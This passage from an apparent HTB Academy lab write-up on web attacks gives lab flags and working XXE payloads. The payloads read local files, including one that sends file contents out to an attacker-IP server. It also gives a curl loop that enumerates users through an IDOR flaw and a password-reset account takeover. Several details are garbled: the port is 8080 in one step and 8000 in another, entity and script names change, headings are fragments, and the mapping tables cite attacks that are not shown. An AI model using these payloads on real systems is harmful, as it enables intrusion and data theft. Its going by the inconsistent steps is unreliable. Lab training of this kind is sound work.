
*_Figure 22.1 — Lab execution and output verification (Page 22)_*


*_Figure 22.2 — Lab execution and output verification (Page 22)_*


*_Figure 22.3 — Lab execution and output verification (Page 22)_*


### And forward....

We make sure to change the uid and uuid (which we have from the
mass_check.sh output)

And forward....:

It will take us to the initial edit page, with the flag down below.


*_Figure 23.1 — Lab execution and output verification (Page 23)_*


### Local File Disclosure

> **Lab Question (Page 24)**: Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer .
>
> **Flag / Answer**: `UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will start by entering the target website from burpsuite browser:
http://<target-IP>
*in this section the target machine has only IP , and the website is running on
default http port 80. *

It get us to a contact from.
Lets fill that form and send massage, while having the burpsuite interceptor on:


*_Figure 24.1 — Lab execution and output verification (Page 24)_*


*_Figure 24.2 — Lab execution and output verification (Page 24)_*


### Lets test that, we will inject the following xml payload

Lets send the request to a repeater, and see there the response:

'Check your email jonsnow@gmail.com for further instructions.' .. lets see in the
browser (right click on response  →  show response on browser):

What it means – is that input we entered, found its way to the page display. It
means we can inject xml (we know it is xml from the request data)payload to
the web page.

Lets test that, we will inject the following xml payload:
<!DOCTYPE email [
<!ENTITY company "jon snow was here">
]>

And the email value will be '&company;'


*_Figure 25.1 — Lab execution and output verification (Page 25)_*


*_Figure 25.2 — Lab execution and output verification (Page 25)_*


*_Figure 25.3 — Lab execution and output verification (Page 25)_*


### * from section's guide

It works. Lets try to obtain using this technique the connection.php
<!DOCTYPE email [
<!ENTITY company SYSTEM "php://filter/convert.base64-
encode/resource=connection.php">
]>

We will notice here there is the 'SYSTEM' keyword, which is required in this
XML script to define external reference.
And we also wrapped the 'connection.php' to base64 encode, that is because
the file likely contains the special characters '</>/&' which would break the
injection. So normal retrieval would fail.

* from section's guide:

*


*_Figure 26.1 — Lab execution and output verification (Page 26)_*


*_Figure 26.2 — Lab execution and output verification (Page 26)_*


### the decoder

We can observe the base64 encoded output of 'connection.php' . lets take it to
the decoder:

Here is the API key.


*_Figure 27.1 — Lab execution and output verification (Page 27)_*


*_Figure 27.2 — Lab execution and output verification (Page 27)_*


### Advanced File Disclosure

> **Lab Question (Page 28)**: Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').
>
> **Flag / Answer**: `HTB{3rr0r5_c4n_l34k_d474}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from where we left off:
Method 1: we will use the CDATA method – we will put the payload
'<!ENTITY joined "%begin;%file;%end;">' in a file called 'xxe.dtd' in our
pwnbox:
```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
```
then, we run temporary python server on the directory having the 'xxe.dtd':
```bash
python -m http.server 8080
```


While the server running, on the repeater we will put the payload:
<!DOCTYPE email [
<!ENTITY % begin "<![CDATA[">
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % end "]]>">
<!ENTITY % xxe SYSTEM "http://<attacker-IP>:8000/xxe.dtd">
%xxe;
]>

In the request xml, same where the previous xml was in the previous session
And in the email value we put
&join;

And send:


*_Figure 28.1 — Lab execution and output verification (Page 28)_*


### with the '&joined;' in the email tag. And send

The flag is right there in the response.

Method 2: we will use Error Based XXE
Lets take the same request from method 1, add to the path the error directory
→  '/error/submitDetails.php' . and remove the payload entirely (leaving us only
with the '&joined;' in the email tag. And send:

*
*


*_Figure 29.1 — Lab execution and output verification (Page 29)_*


*_Figure 29.2 — Lab execution and output verification (Page 29)_*


*_Figure 29.3 — Lab execution and output verification (Page 29)_*


### Then we once again run the python server

The error caused the source code display the path in the http response. We can
```bash
use that. Lets put the new payload to the 'xxe.dtd'  in the pwnbox:
```
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM
'%nonExistingEntity;/%file;'>">
With echo it might be too problematic so we will enter it with nano editor .

Then we once again run the python server:
```bash
python -m http.server 8000
```


And on the page request we put the xml payload:
<!DOCTYPE email [
<!ENTITY % remote SYSTEM "http://<attacker-
IP>:8000/xxe.dtd">
%remote;
%error;
]>
(and the '&joined; in the email tag of course)


*
*


*_Figure 30.1 — Lab execution and output verification (Page 30)_*


*_Figure 30.2 — Lab execution and output verification (Page 30)_*


*_Figure 30.3 — Lab execution and output verification (Page 30)_*


### And send

*
*

And send:

Here is the flag (marked on the response window).


*_Figure 31.1 — Lab execution and output verification (Page 31)_*


*_Figure 31.2 — Lab execution and output verification (Page 31)_*


*_Figure 31.3 — Lab execution and output verification (Page 31)_*


### Blind Data Exfiltration

> **Lab Question (Page 32)**: Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.
>
> **Flag / Answer**: `HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from where we left off, in the burpsuite repeater lets
change the path to '/blind/submitDetails.php':


Now to the pwnbox – lets modify 'xxe.dtd' content to:
<!ENTITY % file SYSTEM "php://filter/convert.base64-
encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://<attacker-
IP>:8000/?content=%file;'>">
*we will modify with nano editor*:

*pay attention we used base64 convert here. *
Now lets run python server:
```bash
python -m http.server 8000
```


Now to the request – we will put that in our content:


*_Figure 32.1 — Lab execution and output verification (Page 32)_*


*_Figure 32.2 — Lab execution and output verification (Page 32)_*


*_Figure 32.3 — Lab execution and output verification (Page 32)_*


### And Send

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
<!ENTITY % remote SYSTEM "http://<attacker-
IP>:8000/xxe.dtd">
%remote;
%oob;
]>
<root>&content;</root>


And Send:

We dont see anything intresting on the response itself, but on the attacker's
server:

We got the content, however as in the xxe.dtd we used the base64 wrap – it is
base64 encoded.


*_Figure 33.1 — Lab execution and output verification (Page 33)_*


*_Figure 33.2 — Lab execution and output verification (Page 33)_*


*_Figure 33.3 — Lab execution and output verification (Page 33)_*


### Lets decode it

Lets decode it:


*_Figure 34.1 — Lab execution and output verification (Page 34)_*


### Capstone: Skills Assessment

> **Lab Question (Page 35)**: Try to escalate your privileges and exploit different vulnerabilities to read the flag at '/flag.php'.
>
> **Flag / Answer**: `HTB{m4573r_w3b_4774ck3r}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will begin with entering the target server web page in the
burpsuite browser:
http://<target-IP>:<target-port>


Nice and simple login page.
Lets login with the provided credentials: 'htb-student:Academy_student!' – we
will make sure to set the burpsuite interceptor on:

Forward  →


*_Figure 35.1 — Lab execution and output verification (Page 35)_*


*_Figure 35.2 — Lab execution and output verification (Page 35)_*


### the request to a repeater and see what we get

Forward  →

In this page – we can observe we are directed to '/api.php/user/74' . Lets send
the request to a repeater and see what we get:

We get the full details of our user .


*_Figure 36.1 — Lab execution and output verification (Page 36)_*


*_Figure 36.2 — Lab execution and output verification (Page 36)_*


*_Figure 36.3 — Lab execution and output verification (Page 36)_*


### is 1 to 100)

Lets keep it in the repeater for now and move back to the proxy. If we move
forward on the proxy – it will take us to the dashboard – '/profile.php':

The details obtained in '/api.php/user/74' are presented in the main dashboard
page.

Back to the repeater, lets try to change the '74' in the URL path to lets say.. '75':

We got the details of another user 'h.ray'.

Lets automate the process with a bash script that extracts and prints the details
for all of the usernames for all the 'uid's. (after some trial and error – the range
is 1 to 100):


*_Figure 37.1 — Lab execution and output verification (Page 37)_*


*_Figure 37.2 — Lab execution and output verification (Page 37)_*


### screenshot above) give it execution permissions and run

#!/bin/bash

url="http://<target-IP>:<target-port>/api.php/user"

for x in {1..100}; do
# Send the GET request and print only the response body
(suppress headers with -s)
response=$(curl -s "$url/$x")

# Print the response body for this request
```bash
echo "Response for x=$x:"
echo "$response"
echo "----------------------------------------"
```
done


We will put the script in a file called 'mass_check4.sh' (as seen in the
screenshot above) give it execution permissions and run:
```bash
chmod u+x mass_check4.sh
```
./masscheck4.sh


*_Figure 38.1 — Lab execution and output verification (Page 38)_*


### off)

*
*


That's a lot of details. Lets try to look for any admin in it:
./masscheck4.sh | grep -i admin


We've found an administrator! 'a.corrales' with the uid of 52. lets try to take
over his user .

Now, simply change the '/api.php/user/74' to '/api.php/user/52' and proceed
to 'a.corrales' dashboard is a bit unstable so we will not do that.
Instead – we will go in our usual htb-student account to settings (interceptor
off):


*_Figure 39.1 — Lab execution and output verification (Page 39)_*


*_Figure 39.2 — Lab execution and output verification (Page 39)_*


*_Figure 39.3 — Lab execution and output verification (Page 39)_*


### arbitrary password, lets say 'jonsnow' – and Submit

We have the options to change the password.
Before we do that – we set the interceptor off again, and change to some
arbitrary password, lets say 'jonsnow' – and Submit:

We see the first request is to '/api.php/token/74' . Lets get that to a repeater as
well, and see what we get in the response:


*_Figure 40.1 — Lab execution and output verification (Page 40)_*


*_Figure 40.2 — Lab execution and output verification (Page 40)_*


*_Figure 40.3 — Lab execution and output verification (Page 40)_*


### Lets change '74' to '52' – 'a.corrales' user

We got the token of user 74 – meaning 'htb-student' token.
Lets change '74' to '52' – 'a.corrales' user:

We got a different token – that's 'a.corrales' token. Lets keep that for now and
proceed with the proxy, hitting 'forward':

We got to another request – directed to '/reset.php' . in it – a POST request with
the parameeters 'uid' – which is our 'htb-student' uid, 'htb-student' token. And
the new password.

Lets change the 'uid' to 52, the token to 'a.corrales' we obtained from the
repeater, and change the method to GET (remember – right click the request
→  Change request method):


*_Figure 41.1 — Lab execution and output verification (Page 41)_*


*_Figure 41.2 — Lab execution and output verification (Page 41)_*


### When all is ready, lets enter 'Forward'

When all is ready, lets enter 'Forward':

'Password changed successfully'.
Lets set the interceptor off, logout and login to 'a.corrales' with the new
password: 'a.corrales:jonsnow'


*_Figure 42.1 — Lab execution and output verification (Page 42)_*


*_Figure 42.2 — Lab execution and output verification (Page 42)_*


*note – for this screenshot I disabled the password field hide characters via
web developer tools, for clarity. *

And we are in. we can immediately observe that a.corrales as administrator has
the option to add event.
Lets set the interceptor on and click on 'ADD EVENT', we will send the
intercepted request to the repeater, and observe the response:


*_Figure 43.1 — Lab execution and output verification (Page 43)_*


*_Figure 43.2 — Lab execution and output verification (Page 43)_*


### Lets go back to the proxy and hit 'Forward'

We can see in the response line 19 – that the event addition uses xml function.
Lets go back to the proxy and hit 'Forward':

Keeping the interceptor on, lets fill some details and Submit:


*_Figure 44.1 — Lab execution and output verification (Page 44)_*


*_Figure 44.2 — Lab execution and output verification (Page 44)_*


*_Figure 44.3 — Lab execution and output verification (Page 44)_*


### repeater

We can see the details of the event in the request body. Lets send that to the
repeater:

We can see the name tag 'winterfell victory parade' is being displayed in the
response as well.

We will proceed in the same manner as 'Local File Disclosure' module –
injecting the xml instead of the name tag value to extract the '/flag.php':
<!DOCTYPE name [
<!ENTITY company SYSTEM "php://filter/convert.base64-
encode/resource=/flag.php">
]>

And in 'name' tag – we will place:
&company;


*_Figure 45.1 — Lab execution and output verification (Page 45)_*


*_Figure 45.2 — Lab execution and output verification (Page 45)_*


### flag.php – lets decode it

The marked output on the response window – that's the base64 encoded
flag.php – lets decode it:


*_Figure 46.1 — Lab execution and output verification (Page 46)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1190, T1552, T1566` |
| **Common Weakness Enumerations** | `CWE-352, CWE-639, CWE-918` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1190`](https://attack.mitre.org/techniques/T1190/) | **Exploit Public-Facing Application** | `Initial Access` | Targeting web vulnerabilities (CSRF, SSRF, XXE, IDOR) |
| [`T1552`](https://attack.mitre.org/techniques/T1552/) | **Unsecured Credentials** | `Credential Access` | Exploiting IDOR to access sensitive user records |
| [`T1566`](https://attack.mitre.org/techniques/T1566/) | **Phishing** | `Initial Access` | Leveraging CSRF to force state-changing actions on authenticated users |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-352`: Cross-Site Request Forgery (CSRF)](https://cwe.mitre.org/data/definitions/352.html)
- [`CWE-639`: Authorization Bypass Through User-Controlled Key (IDOR)](https://cwe.mitre.org/data/definitions/639.html)
- [`CWE-918`: Server-Side Request Forgery (SSRF)](https://cwe.mitre.org/data/definitions/918.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Enforce anti-CSRF tokens with cryptographic validation and set `SameSite=Lax` or `SameSite=Strict` on session cookies.
- Implement indirect reference maps or GUIDs to prevent direct object enumeration in IDOR-susceptible endpoints.
- Deploy Web Application Firewalls (WAF) to inspect request anomalies and enforce strict input boundaries.


---

## Authoritative References & Recommended Reading

- [HTB Academy: Web Attacks](https://academy.hackthebox.com/module/134) — *Official Hack The Box curriculum track*
- [OWASP Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html) — *Standard CSRF defense*
- [PortSwigger: Insecure Direct Object References (IDOR)](https://portswigger.net/web-security/access-control/idor) — *Web Security Academy IDOR labs*
- [RFC 6454: The Web Origin Concept](https://www.ietf.org/rfc/rfc6454.txt) — *Technical foundation of browser same-origin policies*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-29-file-upload-attacks/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 29: File Upload Attacks & Web Shell Weaponization</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 30 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-31-session-security/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 31: Session Security & Token Manipulation</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
